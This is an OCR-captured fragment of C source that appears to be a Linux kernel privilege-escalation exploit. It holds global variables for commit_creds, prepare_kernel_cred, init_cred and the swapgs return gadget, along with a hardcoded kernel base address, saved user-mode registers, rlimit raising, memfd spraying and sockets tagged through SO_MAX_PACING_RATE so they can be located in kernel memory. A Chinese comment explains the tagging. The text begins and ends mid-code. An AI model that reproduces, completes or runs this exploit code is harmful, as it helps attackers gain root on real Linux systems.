 ```
        loge(fmt, ##__VA_ARGS__);          \
        loge("Exit at line %d", __LINE__); \
        exit(1);                           \
    } while (0)
#define debug(fmt, ...)                      \
    do {                                     \
        loge(fmt, ##__VA_ARGS__);            \
        loge("debug at line %d", __LINE__);  \
        getchar();                           \
    } while (0)

#define __ALIGN_MASK(x,mask)    (((x)+(mask))&~(mask))
#define ALIGN(x,a)              __ALIGN_MASK(x,(typeof(x))(a)-1)
#define L1_CACHE_SHIFT 6
#define sk_buff_size 224
#define SOCK_MIN_SNDBUF 2 * (2048 + ALIGN(sk_buff_size, 1 << L1_CACHE_SHIFT))

size_t raw_vmlinux_base = 0xffffffff81000000;
size_t raw_direct_base=0xffff888000000000;
size_t commit_creds = 0,prepare_kernel_cred = 0;
size_t vmlinux_base = 0;
size_t swapgs_restore_regs_and_return_to_usermode=0;
size_t user_cs, user_ss, user_rflags, user_sp;
size_t init_cred=0;
size_t __ksymtab_commit_creds=0,__ksymtab_prepare_kernel_cred=0;

void bind_cpu(int core);
void binary_dump(char *desc, void *addr, int len);

#define PAGE_SIZE 0x1000  
#define SOCKET_TAG  0xdeadbeefdeadbeef
#define VIR_START_ADDR 0xaabbcc0000
#define FIX_ADD_FD 0x20000
#define FAILED ((void*)-1)
#define SET_RCVBUF(x) ((FIX_ADD_FD+x))
#define GET_RCVBUF(x) ((x/2)-FIX_ADD_FD)
#define SUBMIT_READ 0
#define SUBMIT_WRITE 1
void prep_rlimit(int *nr_memfds,int *nr_sockets){
    struct rlimit max_file;

    getrlimit(RLIMIT_NOFILE,&max_file);
    logu("rlim_cur -> %d rlim_max -> %d",max_file.rlim_cur,max_file.rlim_max);
    max_file.rlim_cur=max_file.rlim_max;
    setrlimit(RLIMIT_NOFILE,&max_file);

    int limit = max_file.rlim_max/4;
    *nr_memfds = limit/2;
    *nr_sockets= limit - *nr_memfds;
    logu("nr_memfds -> %d nr_sockets -> %d",*nr_memfds,*nr_sockets);
}
int setup_memfd_physics(char* name,int real_size){
    int fd = memfd_create(name,MFD_CLOEXEC);
    fallocate(fd,0,0,PAGE_SIZE*real_size);
    return fd;
}
int setup_socket(uint64_t TAG){
    int fd;
    if ((fd = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP)) < 0)
        die("socket creating failed");
    // 设置 sk_pacing_rate / sk_max_pacing_rate , 便于找到本sock
    if (setsockopt(fd, SOL_SOCKET, SO_MAX_PACING_RATE, &TAG, sizeof(uint64_t)) < 0) 	
        die("setting pacing rate failed");
```